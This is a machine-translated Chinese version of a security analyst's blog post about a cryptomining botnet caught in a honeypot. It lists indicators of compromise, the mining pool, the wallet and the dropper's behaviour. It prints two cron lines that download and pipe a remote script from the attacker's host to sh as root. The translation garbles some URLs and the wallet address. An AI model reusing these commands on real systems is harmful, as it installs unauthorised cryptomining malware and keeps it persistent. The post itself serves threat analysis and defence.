





# 采矿僵尸网络现在正在蔓延

> 原文：<https://medium.datadriveninvestor.com/mining-botnet-is-now-spreading-93be98b4f83e?source=collection_archive---------18----------------------->

[作者]SMII·蒙德赫|网络安全分析师|

在我的关于**密码劫持**的文章之后，我给你提供了第二篇关于检测采矿僵尸网络的文章。

 [## 如何找到密码劫持恶意软件…

### 密码劫持是未经授权使用他人电脑挖掘加密货币。

medium.com](https://medium.com/@smii.mondher/how-to-find-cryptojacking-malware-a905ac458329) 

一个采矿僵尸网络出现在 m **y tunPOT 雷达**中，这确实引起了我的注意。这个僵尸网络试图感染各种采矿设备。

# **分析**

植入有效负载下载并执行以下脚本:

*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/lmao](http://dec9.000webhostapp.com/0x22/0xx444/assets/)。嘘

这个脚本试图创建一个用户 **dec9** ，密码为**$ 1 $ mnyl 6 iyz $ kci 7 cwb/u 5 lzaz 3d yn 4 av/**，并使用 wget 或 curl 命令下载一个文件 **2001** 。

隐藏脚本名为 2001，它的作用是设置一个 Cron 作业

> echo " */5 * * * * curl-fsSL[http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh](http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh)| sh ">/var/spool/cron/root
> echo " */5 * * * * wget-q-O-[http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh](http://dec9.000webhostapp.com/0x22/0xx444/ixt.sh)| sh ">>/var/spool/cron/root

第三个脚本叫做 ixt.sh，他专门用于 XMR 挖掘。

开采池有:

*   **算法**:密码夜——工作证明
*   pool.supportxmr.com:3333**矿池**
*   **钱包地址**:427 unvgfsb 7 w 412 C4 emingwnurvpohychv 48 xzfgamuuyyiqffnjweuaodqibsg 62 mredprckbhdox 9 wd 1 L3 o 1 jbraqr
*   **泳池通行证** : x

到目前为止，零硬币已支付，如下图所示:

# TunPOT 威胁查看器

检测:

YARA 规则

国际奥委会

*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/lmao](http://dec9.000webhostapp.com/0x22/0xx444/assets/)。嘘
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/](http://dec9.000webhostapp.com/0x22/0xx444/assets/). 2001
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0xx 444/ixt](http://dec9.000webhostapp.com/0x22/0xx444/assets/)。嘘
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0x444/Prussa](http://dec9.000webhostapp.com/0x22/0xx444/assets/)
*   [hxxp://dec 9.000 webhostapp . com/0x 22/0x444/](http://dec9.000webhostapp.com/0x22/0xx444/assets/)12

联系我:

smii.mondher@gmail.com

